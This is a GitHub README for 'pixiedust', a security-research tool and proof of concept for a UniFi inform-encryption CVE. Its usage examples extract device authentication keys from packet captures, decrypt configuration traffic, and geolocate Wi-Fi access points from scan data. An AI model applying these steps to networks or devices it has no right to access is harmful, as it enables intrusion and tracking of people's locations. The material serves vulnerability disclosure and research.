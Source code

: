 # pixiedust
Tool for exploring Ubiquiti UniFi inform traffic & proof of concept for [CVE-2020-28936](https://jade.wtf/words/unifi-l3inform-crypto).

## Building
1. You need [go](https://golang.org/). 
2. Clone git repo.
3. `go build`

## Usage

Extract keys from pcap of device adoption:
```
$ ./pixiedust -in unifi-fresh-usw.pcap -findkeys -message=false -logtostderr=false
0ee876dee74ff09c2e88387ecda39512
```

View inform sent from device (truncated here):
```
$ ./pixiedust -in unifi-fresh-usw.pcap  | jq | head -10
I1120 00:15:22.540899   13221 extraction.go:59] discovered key: 0ee876dee74ff09c2e88387ecda39512 for 10.0.1.48
{
  "architecture": "armv7l",
  "board_rev": 9,
  "bootid": 0,
  "bootrom_version": "usw-USHR3_v1.0.11.60-ga2f339b1",
  "cfgversion": "?",
  "default": true,
```

View config settings as applied to device (filtered to inform response because big output...):
```
$ ./pixiedust -in unifi-fresh-usw.pcap 2>&1|head -3|tail -2
{"_type":"setparam","mgmt_cfg":"capability=notif,fastapply-bg,notif-assoc-stat\nselfrun_guest_mode=pass\ncfgversion=bd4b0ca608dd9ca5\nled_enabled=false\nstun_url=stun://unifi:3478/\nmgmt_url=https://unifi:8443/manage/site/default\nauthkey=0ee876dee74ff09c2e88387ecda39512\nuse_aes_gcm=true\nreport_crash=true\n","server_time_in_utc":"1605818282220"}
I1120 00:11:43.163105   13121 extraction.go:59] discovered key: 0ee876dee74ff09c2e88387ecda39512 for 10.0.1.48
```

Geolocate WiFi APs by scan data (and suppress inform request/response so you don't miss it): 
```
$ export PD_MAPS_API_KEY=your_key_here
$ ./pixiedust -in locinform.pcap -locate -message=false
Device E063DA85AAC5 at 37.533223,-121.998402 (32.000000)
Device E063DA85AAC5 at 37.533154,-121.998379 (122.000000)
Device E063DA85AAC5 at 37.532886,-121.997456 (164.000000)
Device E063DA85AAC5 at 37.532843,-121.997286 (175.000000)
Device E063DA85AAC5 at 37.532932,-121.998446 (125.000000)
Device E063DA85AAC5 at 37.532959,-121.998441 (125.000000)
Device E063DA85AAC5 at 37.532993,-121.998439 (125.000000)
Device E063DA85AAC5 at 37.532977,-121.998488 (60.000000)
Device E063DA85AAC5 at 37.532987,-121.998509 (101.000000)
```

